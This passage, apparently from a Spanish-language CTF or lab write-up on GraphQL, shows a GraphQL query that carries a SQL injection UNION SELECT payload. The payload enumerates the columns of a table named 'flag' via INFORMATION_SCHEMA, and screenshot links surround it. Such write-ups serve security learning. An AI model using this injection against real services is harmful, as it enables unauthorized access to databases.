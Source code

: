 [![graphql16](/images/graphql16.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/graphql16.png)

[![graphql17](/images/graphql17.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/graphql17.png)

Una vez tenemos las tablas, listamos las columnas de una tabla específica:

```graphql
{"query":"{user(username: \"prueba' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='flag' AND table_schema=database()-- -\") { id username msg role }}"}
```

[![graphql18](/images/graphql18.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/graphql18.png)
